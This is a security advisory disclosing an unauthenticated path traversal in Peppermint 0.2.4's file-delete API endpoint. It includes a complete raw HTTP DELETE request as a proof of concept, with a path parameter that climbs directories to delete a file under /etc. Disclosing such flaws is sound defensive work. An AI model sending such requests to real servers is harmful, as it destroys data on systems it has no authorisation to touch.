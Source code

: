 # Peppermint-Lab  - Path Traversal


**CVE-ID:** -


**Vendor:** [Peppermint-Lab](https://peppermint.sh)

**Affected Product:** Peppermint

**Affected Versions:** 0.2.4

**Vulnerability:** Path Traversal

**Status:** Unfixed

**Severity:** Critical



## Details

The application does not properly filter the `path` JSON parameter in the `/api/v1/users/file/delete` endpoint.

This results in arbitrary file deletion (unauthenticated).


```
DELETE /api/v1/users/file/delete HTTP/1.1
Host: localhost:5000
Content-Length: 57
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
sec-ch-ua-platform: "Linux"
Content-Type: application/json
Accept: */*
Origin: http://localhost:5000
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:5000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"id":"4","path":"./../../../../../../../etc/hacked.txt"}
```

